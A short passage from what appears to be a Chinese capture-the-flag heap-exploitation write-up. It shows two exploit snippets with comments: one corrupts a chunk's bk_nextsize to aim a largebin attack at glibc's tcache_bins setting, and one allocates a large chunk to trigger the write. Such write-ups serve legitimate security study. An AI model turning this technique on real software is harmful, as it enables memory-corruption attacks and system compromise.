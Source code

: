 [![](assets/1700442753-0780006312dd6645560eb0b5072ab1f8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117185456-be9a2f3e-8537-1.png)

```bash
edit(0,p64(0)*3+p64(tcache_max_bins-0x20))
#修改 chunk 0 的 bk_nextsize 为_mp+80 - 0x20 处，来达到任意地址写一个堆块地址
```

[![](assets/1700442753-4ffccf32f2bb28f592e38f6af2177831.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117185500-c0df5e72-8537-1.png)

```bash
add(4,0x600,"\n")
#申请一个大堆块触发漏洞
```
